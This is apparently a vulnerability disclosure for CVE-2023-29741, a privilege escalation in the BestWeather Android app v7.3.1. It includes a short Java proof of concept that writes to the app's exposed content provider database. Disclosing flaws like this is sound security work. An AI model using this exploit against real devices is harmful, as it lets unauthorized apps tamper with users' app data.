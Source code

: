 ## Escalation of Privileges exists in Alarm Clock for BestWeather（CVE-2023-29741）

Vendor：最美天气（上海）科技有限公司(http://www.zmtqsh.com/)

Affected product：BestWeather(com.icoolme.android.weather)

Version：7.3.1

Download link：https://play.google.com/store/apps/details?id=com.icoolme.android.weather

Description of the vulnerability for use in the CVE：An issue found in BestWeather v.7.3.1 for Android allows unauthorized apps to cause an escalation of privileges attack by manipulating the database.



poc：

```java
ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
Uri uri = Uri.parse("content://com.icoolme.android.weather.provider/EXP");
ContentValues contentValues = new ContentValues();
contentValues.put("extend1",1);
contentResolver.update(uri,contentValues,null,null);
```



